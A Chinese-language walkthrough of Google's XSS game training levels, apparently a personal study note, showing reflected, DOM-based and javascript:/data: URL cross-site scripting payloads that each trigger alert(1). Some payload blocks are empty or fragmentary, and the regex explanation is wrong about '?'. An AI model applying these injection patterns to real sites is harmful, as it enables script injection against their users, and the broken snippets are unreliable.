



靶场：[XSS game](https://xss-game.appspot.com/)

### level 1

1.输入框，随便输入测试页面对用户输入的处理


 2.发现 完全没有任何处理和转义，页面直接输出我们的代码--即反射型xss

3.输入payload，成功。

```html
<script>alert(1)</script>
```

补充笔记：

1. 反射型 XSS(Reflected XSS)：直接拼接”进最终生成的网页结构（HTML）里返回给浏览器。用户输入什么，页面直接输出什么。
2.  alert()：javascript里能弹出弹窗的指令，html中用`<script>`用来包裹js代码 ，执行。

### level2

1.留言/输入显示出来，需要html里的innerHTML属性，`innerHTML` 会禁止`<script>` 标签的被执行，因此没办法直接使用


2.看输入对应的源码

```html
function displayPosts() {
        var containerEl = document.getElementById("post-container");
        containerEl.innerHTML = "";

        var posts = DB.getPosts();
        for (var i=0; i<posts.length; i++) {
          var html = '<table class="message"> <tr> <td valign=top> '
            + ' </td> <td valign=top '
            + ' class="message-container"> <div class="shim"></div>';

          html += '<b>You</b>';
          html += '<span class="date">' + new Date(posts[i].date) + '</span>';
          html += "<blockquote>" + posts[i].message + "</blockquote";
          html += "</td></tr></table>"
          containerEl.innerHTML += html; 
        }
      }
```

3.html变量里的内容都会经过innerHTML被解析成html代码,我们在此利用`` 标签的错误事件处理onerror--即无法找到图片地址时会自动触发`onerror` 事件，执行js代码。

4.payload:

```html

```

### level3

> Sometimes this fact is hidden by higher-level APIs which use one of these functions under the hood. 正如你在上一关看到的，一些常见的 JS 函数 是*执行汇* ，这意味着它们会导致 浏览器中出现的任何脚本。 有时这一事实会被更高级的 API 隐藏， 在底层使用这些功能之一。The application on this level is using one such hidden sink.  这一层的应用就是使用这样一个隐藏的汇流。  

 类型：DOM-based XSS

点击图片，发现url里#参数跟随发生变化，找到注入点；看源码；

```html
function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "";
        $('#tabContent').html(html);

        window.location.hash = num;
```

直接拼接出的字符串作为html代码转化，沿用上一题的思路，用img标签下的onerror错误处理；

payload:

```html

111' onerror='alert(1)'
"
```

### level 4

找到注入点`timer` ,

```html

```

payload:

```html

{{ timer }} -->3');alert('1   // '); 闭合单引号

```

补充笔记：

1. onload属性会被当作js代码执行。

### level 5

1.看源码,输入的email会被直接忽略，直接执行到next的超链接，

```html
<body id="level5">
    <br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">

    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
```

2.get输入next参数，在这里注入。`href` 支持`javascript:` 伪协议 ,构payload,成功。

```
http://……/signup?next=javascript:alert(1)
```

补充笔记：

```html
<a href= "https://aaa.com">aaa</a>;  //href 为超链接的地址
```

交互式xss，需要用户点击超链接。

### level 6

`window.location.hash.substr(1)`  提取url输入，注入在这里。

```html
// Take the value after # and use it as the gadget filename.
    function getGadgetName() { 
      return window.location.hash.substr(1) || "/static/gadget.js";
    }
```

url 会被放到src 做文件地址，有正则匹配。

```html
function includeGadget(url) {
      var scriptEl = document.createElement('script');
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
      // Load this awesome gadget
      scriptEl.src = url;
```

绕过方法，考虑 data:text 伪协议。构payload:

```html
https://……/frame#data:text/javascript,alert(1)
```

补充笔记：

1. html里，src是文件路径

2. `if (url.match(/^https?:\/\//)) ` 正则表达式，看`^https?://`，^从第一个字符开始，？前的字符出现次数无规定0-fff,\ / 是/。

3. `url=https://example.com#example `下`location.hash` 
    返回#example，所以常和.substr(1)配合使用截除#，保留后面的部分。



 通关！

---

 学习笔记：https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS
